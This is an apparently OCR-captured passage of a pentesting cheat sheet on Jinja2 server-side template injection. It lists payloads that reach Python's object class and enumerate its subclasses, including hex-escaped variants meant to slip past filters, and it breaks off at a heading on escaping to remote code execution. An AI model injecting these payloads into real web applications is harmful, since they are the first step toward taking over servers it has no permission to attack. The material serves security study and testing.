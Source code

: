 **'Example 1'**:
```
[<class '__main__.B'>, <class '__main__.C'>]
```

**'Example 2'**:
```
[<class '__main__.E'>, <class '__main__.F'>]
```
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}

# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
### RCE Escaping
